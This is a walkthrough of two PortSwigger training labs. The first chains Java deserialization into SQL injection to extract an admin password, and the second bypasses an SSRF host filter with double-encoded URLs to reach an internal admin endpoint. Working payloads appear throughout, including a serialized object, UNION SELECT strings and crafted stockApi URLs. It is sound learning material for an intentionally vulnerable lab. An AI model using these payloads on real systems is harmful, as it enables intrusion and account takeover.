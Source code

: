 # portswigger
## q1
### Goal: 
-	gain access to the source code
-	construct a gadget chain to obtain admin's password
-	login admin
-	delete Carlos

The question is about Java deserialization, and the first step is to check where tokens (similar to tokens encoded in PHP serialization) are located on the website. There are several places that need to be checked, including the request body, web application storage, and cookies. The Java serialization process is similar to that of PHP, and certain functions are used. KaiBro's "Java 反序列化之 readObject 分析" provides a basic overview of serialization, and Java uses the readObject() function to convert byte sequences into objects. Therefore, we need to find the original class in this question.


### Info
- test account: `wiener:peter`

### Tool
- `burpsuite` : network proxy, api tester, request & response method check and de/encoder.
- `vscode`: Build payload, read source code.
- `diresearch`: scan web path.
### Step 

#### 1.	Use `diresearch` and manually looking for website
	*    manually looking:
        -	`robotx.txt (x)`
        -	`sitemap(x)`
        -	index.html `<!-- <a href=/backup/AccessTokenUser.java>Example user</a> -->`
	*    diresearch:
        ![](https://i.imgur.com/BDpNqG0.png)
	
    

#### 2. 	Found source code in `{url}/backup`
    think:
    Find some info in html, there is a comment in html source code.
    There are two Java source code at backup path.
    Found the user and product template.
    
#### 3.  Login `wiener:peter`
![](https://i.imgur.com/xCuwLSm.png)

```
Set-cookie:  
`session:"rO0ABXNyAC9sYWIuYWN0aW9ucy5jb21tb24uc2VyaWFsaXphYmxlLkFjY2Vzc1Rva2VuVXNlchlR/OUSJ6mBAgACTAALYWNjZXNzVG9rZW50ABJMamF2YS9sYW5nL1N0cmluZztMAAh1c2VybmFtZXEAfgABeHB0ACBmdmw1Y2w3aWEwNmVtNnBudzJpdTlnbmE2eDA3NG0ya3QABndpZW5lcg%3d%3d"
```
The java serilization string contains the prefix `rO0AB..`
So I decoded this cookie using Base64 and confirmed that it is a Java serialization object.

-	decode by base64text: 
`쭀sr/lab.actions.common.serializable.AccessTokenUserQ쥒'遂LaccessTokentLjava/lang/String;Lusernameq~xpt fvl5cl7ia06em6pnw2iu9gna6x074m2ktwiene￷｝` 
	 
	
#### 4.  Building ProductTemplate.java in the source code is a serializable object and overwrites readObject(). 
When trying to rebuild the Java object, we can choose between AccessTokenUser or ProductTemplate, but since ProductTemplate has readObject() and we don't have any other account and password, we choose ProductTemplate to rebuild.
The question hint contains a serialization code, so we use it to generate an attack payload:
![](https://i.imgur.com/1gDkDNB.png)
Other information:

* The database is using PostgreSQL.
* There are no highly vulnerable functions.
* If there is any code like java.lang.getRuntime().exec, it can be used for RCE and reverse a shell, but there are no high-risk functions in this code



#### 5.  Using java serialization to generate ProductTemplate object
    - rebuild `ProductTemplate.java` `test_Main.java`
    - generate some payloads like `' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL--`
#### 6.  sql injection 
ProductTemplate.java:41
` String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);`
can be exploit by sql injection,

```
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQALicgVU5JT04gU0VMRUNUIE5VTEwsTlVMTCxOVUxMLE5VTEwsTlVMTCxOVUxMLS0=
Deserialized object ID: ' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL--
<p class=is-warning>java.io.IOException: org.postgresql.util.PSQLException: ERROR: each UNION query must have the same number of columns Position: 51</p>
```

ref: https://portswigger.net/web-security/sql-injection/cheat-sheet
1. Check about columns count: 8 
2. Check about columns type
3. Check table: `users`
![](https://i.imgur.com/UlkLgbr.png)
3. username: `administrator`![](https://i.imgur.com/K7rSCIK.png)
3. password:`60jdq8ws5bk1yh18khgo`
![](https://i.imgur.com/9mDQMVM.png)


> In other projects, I used sqlmap to test for database injection, but in this case, I used traditional SQL injection testing methods.



#### 7.  Finish work!!!
Login admin and delete Carlos.
![](https://i.imgur.com/ZovoW7W.png)


## q2 
### Goal: 
access `http://localhost/admin`using stockApi to delete `carlos`


### step:
1. Using burp suite to get the normal request.
    `stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1`
    ![](https://i.imgur.com/TiczJCu.png)
    call stockAPI so used this to ssrf

2. Try to call localhost directly. Response shows the uri must have stock.weliketoshop.net 
    `stockApi=http://localhost`
    ![](https://i.imgur.com/fDJte5J.png)

3. Check if 127.0.0.1 can pass? 
    `stockApi=http://127.0.0.1/`
    ![](https://i.imgur.com/pubfT7j.png)

4. Must have `stock.weliketoshop.net`
    ![](https://i.imgur.com/aX9j51n.png)
The previous responses show that the host must be `stock.weliketoshop.net`. I suspect that there is a checker to verify the host. According to the URIGeneric Syntax (also known as [rfc3986](https://www.rfc-editor.org/rfc/rfc398)), the host can be placed after the @ symbol, and before the @ symbol can be user information.

   To make the checker see the host as `stock.weliketoshop.net` and allow the stockApi request sender to access the admin panel, the URI should be written as stockApi=`http://localhost@stock.weliketoshop.net/`. 
   This will pass the host checker.
    ![](https://i.imgur.com/Avu1Rqh.png)

5. The stockAPI cannot request correctly.
    `stockApi=http://localhost/admin@stock.weliketoshop.net`
    ![](https://i.imgur.com/rJTmIQR.png)

6. try to encode `/` but failed.
    `stockApi=http://localhost/admin@stock.weliketoshop.net`
    ![](https://i.imgur.com/6DmjJPE.png)

    `stockApi=http://localhost%25admin@stock.weliketoshop.net`
    `stockApi=http://localhost%252fadmin@stock.weliketoshop.net`
    ![](https://i.imgur.com/dyz8lGY.png)
    Try to `access/admin`  using `/` `%25` `%252f` but can't access.
    These terms still get the Bad Request, so abandon using slash.

7. try to access admin 
    `stockApi=http://localhost@stock.weliketoshop.net/admin`
    ![](https://i.imgur.com/5KyurUz.png)
    Put the `/admin` in the end, the message show we pass the host filter.
    but the web server still can't redirect to `localhost`
    
8. access admin with `#`
    
    `stockApi=http://localhost#@stock.weliketoshop.net/admin/`  failed
    `stockApi=http://localhost%23@stock.weliketoshop.net/admin/` failed
    `stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin/` successed
    ![](https://i.imgur.com/uIQHPGq.png)
    
    and `stockApi=http://localhost%2523@stock.weliketoshop.net/admin/`is also successed
    ![](https://i.imgur.com/t60nLac.png)
    
    This step is strange. Using `#` and encoding it once cannot allow access, but double encoding can also pass. It's possible that the web server ignores the `#` symbol when it's double encoded and redirects to localhost, but the /admin path after the # symbol is still concatenated, resulting in the URI becoming `http://localhost/admin`.

7. Finish work!!!
    find the delete api and delelte carlos.
    `stockApi=http://localhost%2523%40stock.weliketoshop.net/admin/delete?username=carlos`
    ![](https://i.imgur.com/W81xjzQ.png)
9. test encode`#@` but cannot pass.
`stockApi=http://localhost/admin/%2523%40stock.weliketoshop.net`
![](https://i.imgur.com/nF2ToGf.png)
### epilogue 

According to "A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages!" by Orange Tsai, there are many URL parsers and different programming languages and libraries use different parsing types. Therefore, it's possible that this question also has a different URL parser.




